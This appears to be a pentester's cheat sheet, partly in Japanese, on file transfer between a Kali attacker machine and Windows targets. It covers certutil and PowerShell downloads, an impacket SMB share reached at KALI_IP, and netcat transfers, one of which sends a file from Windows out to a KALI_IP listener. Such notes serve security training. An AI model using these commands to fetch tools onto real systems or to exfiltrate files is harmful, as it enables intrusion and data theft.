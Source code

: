 ## SCP

## HTTP

apache web server  

python web server  
カレントディレクトリのファイルをリモート側でダウンロードさせる  
```
python3 -m http.server
```

download command  
powershell
```
iwr -Uri "URL" -OutFile "保存先のファイルパス"
```

cmd prompt
```
certutil -urlcache -split -f URL OUTPUTFILE
```
## SMB
server (linux)
```
impacket-smbserver test . -smb2support  -username kourosh -password kourosh
```

client (windows)
```
net use m: \\KALI_IP\test /user:kourosh kourosh
```

# Netcat
### kali -> windows
listener (linux)
```
nc -nvlp 9999 < file.txt
```

client (windows)
```
C:\Tools\nc.exe -nv KALI_IP 9999 > file.txt
```

### windows -> kali
listener (kali)
```
nc -nvlp 9999 > file.txt
```

client (windows)
```
nc.exe -nv KALI_IP 9999 < file.txt
```